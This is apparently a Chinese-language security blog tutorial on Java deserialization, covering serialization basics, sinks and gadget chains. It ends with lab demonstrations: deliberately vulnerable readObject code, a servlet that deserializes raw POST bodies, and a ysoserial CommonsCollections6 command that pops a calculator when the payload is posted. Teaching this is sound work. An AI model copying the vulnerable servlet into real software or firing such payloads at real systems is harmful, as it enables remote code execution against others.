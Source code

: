 ```yaml
---
layout: post
title: 'JAVA反序列化一'
subtitle: 'JAVA反序列化一'
date: 2021-09-15
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全
---
```


### 反序列化基础知识

一般来说，java的序列化与反序列化是指java Object Serialization Specification：

	序列化：ObjectOutputStream().writeObject()
	反序列化：ObjectInputStream().readObject()

广义上来说，任何将java对象与持久化的数据进行转换的过程，都可以称为序列化与反序列化：

	Fastjson
	Jackson
	xmlencoder/xmldecoder
	XStream
	....

能够进行序列化/反序列化的对象，需要实现Serializable或者Externalizable接口：

	java.io.Serializable
	java.io.Externalizable

Serializable与Externalizable有什么不同：

	Serializable无需重写，它就是一个标记接口
	Serializable提供了transient控制序列化属性，readObject和writeObject也可以完成部分属性的序列化
	Externalizable需要重写readExternal和writeExternal方法
	当我们同时实现了两个接口时，JVM只运行Externalizable接口里面的writeExternal和readExternal方法对序列化内容进行处理	
	Externalizable接口的实现方式一定要有默认的无参构造函数
	采用Externalizable无需产生序列化ID（serialVersionUID）而Serializable接口则需要
	相比较Serializable，Externalizable序列化、反序列化更加快速，占用相对较小的内存

serialVersionUID的作用

	在序列化的时候保证与本地类的版本相同

transient关键字
	
	在序列化一个类的时候，有时候并不想写入多余的数据那该怎么做呢？
	transient关键字：
		关键字修饰成员变量的时候，该成员不会被序列化

	那么问题来了,虽然id被transient修饰，但是可以被修改吗?
		定制化

java序列化包

![](https://1024861435.github.io/assets/img/JAVA反序列化1.png)

![](https://1024861435.github.io/assets/img/JAVA反序列化2.png)

java序列化包分析工具

![](https://1024861435.github.io/assets/img/JAVA反序列化3.png)

从上可以得出结论，如果一个类需要序列化那么需要这个类或者父类实现Serializable或者Externalizable接口

对一个类进行序列化需要执行ObjectOutputStream.writeObject方法写入对象。

对一个类进行反序列化需要ObjectInputStream.readObject从输入流中读取字节然后转化成对象

在序列化的过程中，被反序列化操作的类不会执行构造方法。

### 反序列化成因

java反序列化漏洞：

	如果java应用对来源不可信的数据进行了反序列化处理，那么攻击者通过构造恶意输入，让反序列化产生非预期的对象，非预期的对象在生产过程中就可能带来安全问题

在readObject中可能存在可被执行的操作

![](https://1024861435.github.io/assets/img/JAVA反序列化4.png)

![](https://1024861435.github.io/assets/img/JAVA反序列化5.png)

在序列化漏洞中，我们可以将可执行代码的位置称之为sink

	Runtime.exec(),这种最为简单直接，即直接在目标环境中执行命令
	Method.invoke(),这种需要适当的选择方法和参数，通过反射执行java方法
	RMI/JNDI/JRMP等，通过引用远程对象，间接实现任意代码执行的效果 

Gadget

通过source各种方法之间的调用到sink点（同php）
有没有一款工具帮我们找

![](https://1024861435.github.io/assets/img/JAVA反序列化6.png)


那就需要根据程序中已有的类库进行构造利用链（Gadget）

java反序列化产生的因素：
	
	对不可信数据进行反序列化处理
	系统应用环境里存在能够被利用的反序列化利用链（Gadget）

如何在没有漏洞的代码中利用反序列化

	寻找项目中的依赖库
好了？
	
	ysoserial

### 漏洞演示

漏洞代码（导入/commons-collections3.2.1）

	import java.io.FileInputStream;
	import java.io.IOException;
	import java.io.ObjectInputStream;
	
	public class testCC {
	    public static void main(String[] args) throws IOException,ClassNotFoundException{
	        ObjectInputStream ois=new ObjectInputStream(new FileInputStream("D:\\web1\\src\\learn\\resources\\cc6n.ser"));
	        ois.readObject();
	        ois.close();
	    }
	}


利用ysoserial生成一个ccn6.ser的文件

	cmd命令：java -jar D:\ysoserial\ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 calc >cc6n.ser	

运行弹出计算机

![](https://1024861435.github.io/assets/img/JAVA反序列化7.png)

### 漏洞演示二

1.搭建Java web环境

2.写入漏洞代码


	import com.sun.net.httpserver.HttpServer;
	import javafx.scene.input.TouchEvent;
	
	import javax.servlet.annotation.WebServlet;
	import javax.servlet.http.HttpServlet;
	import javax.servlet.http.HttpServletRequest;
	import javax.servlet.http.HttpServletResponse;
	import javax.xml.ws.WebFault;
	import java.io.IOException;
	import java.io.ObjectInputStream;
	
	@WebServlet("/serial")
	public class SerialServlet extends HttpServlet {
	    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException{
	        resp.getWriter().write("");
	    }
	    protected void doPost (HttpServletRequest req,HttpServletResponse resp)throws IOException{
	        ObjectInputStream ois = new ObjectInputStream(req.getInputStream());
	        try {
	            ois.readObject();
	
	        } catch (ClassNotFoundException e) {
	            e.printStackTrace();
	        }
	    }
	}

在readObject()中存在漏洞反序列化的漏洞

3.利用漏洞演示一中ysoserial生成的cc6n.ser作为payload，通过brupsuite post传入

![](https://1024861435.github.io/assets/img/JAVA反序列化9.png)

放回200 并且弹出计算机窗口

![](https://1024861435.github.io/assets/img/JAVA反序列化10.png)


